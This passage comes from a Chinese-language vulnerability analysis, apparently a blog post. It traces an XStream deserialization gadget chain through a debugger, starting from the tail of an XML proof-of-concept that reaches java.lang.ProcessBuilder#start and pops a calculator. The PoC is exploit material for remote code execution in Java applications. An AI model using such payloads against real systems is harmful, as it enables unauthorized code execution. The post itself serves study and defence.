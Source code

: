 ```xml
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>start</name>
                  </filter>
                  <next/>
                </iterator>
                <type>KEYS</type>
              </e>
              <in class='java.io.ByteArrayInputStream'>
                <buf></buf>
                <pos>0</pos>
                <mark>0</mark>
                <count>0</count>
              </in>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
```

把这段poc替换进我们新建的demo类中的xml，运行后成功弹出了计算器

![img](https://img2020.cnblogs.com/blog/2091628/202011/2091628-20201125091049107-1965933540.png)

首先为了观察整个gadget的调用栈，在poc中可以看出，最后一步会运行到java.lang.ProcessBuilder#start方法，所以直接来到这里下断点调试
![img](https://img2020.cnblogs.com/blog/2091628/202011/2091628-20201125091107914-2213.png)

发现调用栈还是很长的，下面一点一点来跟着poc和调用栈分析
![img](https://img2020.cnblogs.com/blog/2091628/202011/2091628-20201125091145329-1723728741.png)

先回到最开始的入口来

![img](https://img2020.cnblogs.com/blog/2091628/202011/2091628-20201125091204329-682268163.png)

先把我们的poc作为xml参数传入fromXML方法，后面接着又调用了XStream#unmarshal()方法，参数为处理后的poc字符输入流

![img](https://img2020.cnblogs.com/blog/2091628/202011/2091628-20201125091254144-1780025702.png)

跟入XStream#unmarshal()方法，后面又调用了AbstractTreeMarshallingStrategy#unmarshal()

![img](https://img2020.cnblogs.com/blog/2091628/202011/2091628-20201125091306629-389048051.png)

